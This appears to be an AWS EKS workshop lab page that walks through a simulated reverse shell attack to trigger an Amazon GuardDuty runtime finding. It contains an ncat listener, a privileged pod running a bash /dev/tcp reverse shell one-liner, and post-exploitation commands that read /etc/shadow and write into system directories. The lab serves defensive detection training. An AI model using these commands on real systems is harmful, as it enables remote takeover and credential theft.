

In this last lab exercise for Amazon GuardDuty findings, you'll simulate a reverse shell attack in your EKS Cluster environment.

This one is a little tricky and since we want to run it as a simulation in a controlled environment, it will require you to create another Cloud9 environment that will serve as the offensor instance. To do that, open your [CloudShell](https://console.aws.amazon.com/cloudshell/home), and run the following commands.

```bash
$ export RSHELL_SUBNET=$(aws ec2 describe-subnets --query 'Subnets[0].SubnetId' --filters "Name=tag:Name,Values=*SubnetPrivate*" --output text)
$ export RSHELL_IDE=$(aws cloud9 create-environment-ec2 --name reverse-shell --instance-type t2.micro --connection-type CONNECT_SSM --subnet-id $RSHELL_SUBNET --query 'environmentId' --output text)
$ sleep 60
$ export RSHELL_SG=$(aws cloudformation describe-stack-resource --stack-name aws-cloud9-rshell-$RSHELL_IDE --logical-resource-id InstanceSecurityGroup --query 'StackResourceDetail.PhysicalResourceId')
$ aws ec2 authorize-security-group-ingress --group-id $RSHELL_SG --protocol all --port 6666 --cidr 10.42.0.0/16
```

Open another tab in your browser and go to the [Amazon Cloud9 Console](https://console.aws.amazon.com/cloud9control/home). You should se another IDE environment with the nama `rshell`, click on the **Open** link next to the IDE environment name.

On the Terminal of the new environment, you'll need to get the IP Address of the Cloud9 instance, install and run the `ncat` tool to simulate an attack tentative.

```bash
$ curl http://169.254.169.254/latest/meta-data/local-ipv4
```

Note the IP Address on the output.

```bash
$ sudo yum install ncat -y
$ ncat -nvlp 6666
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Listening on :::6666
Ncat: Listening on 0.0.0.0:6666
```

This last command will start listening all connections on port 6666.

Now, go back to the `eks-workshop-ide` terminal, and run a new Pod that will emulate the compromised workload.

```bash
$ kubectl run -ti --rm --restart=Never --image=ubuntu --privileged reverse-shell -- /bin/bash -c "bash -i >& /dev/tcp//6666 0>&1"
If you don't see a command prompt, try pressing enter.
``` 

Return to the `rshell` IDE, and you will be able to see that a new connection from offensor instance to the Pod, and you are able to run commands to the newly created Pod inside your Amazon EKS Cluster. Try a few privileged commands like below.

```bash
Ncat: Connection from 10.42.129.208.
Ncat: Connection from 10.42.129.208:39692.
$ cat /etc/shadow
$ chroot /
$ touch /etc/dangerousfile
$ mkdir /bin/dangerousfolder
$ ls /etc/danger*
```

Notice that the terminal where you started the Pod is completely frozen, and you are not able to run commands. To end the session, hit `CTRL+C` / `CMD+C`, or type `exit` on the `rshell` IDE. The Pod on the `eks-workshop-ide` will be terminated and you will be able to take control again.

On the `rshell` Cloud9 IDE.

```bash
$ exit

```

On the `eks-workshop-ide` Cloud9 IDE, you'll see the following message.

```bash
pod "reverse-shell" deleted
```

If you open the [GuardDuty Findings console](https://console.aws.amazon.com/guardduty/home#/findings), you will see the `Execution:Runtime/ReverseShell` finding.




To clean up, delete the `reverse-shell` Cloud9 IDE environment, on your [CloudShell](https://console.aws.amazon.com/cloudshell/home).

```bash
$ aws cloudformation list-stacks --stack-status-filter CREATE_COMPLETE --query 'StackSummaries[].StackName' | awk -F , '/rshell/ {print $1}' | xargs aws cloudformation delete-stack --stack-name
```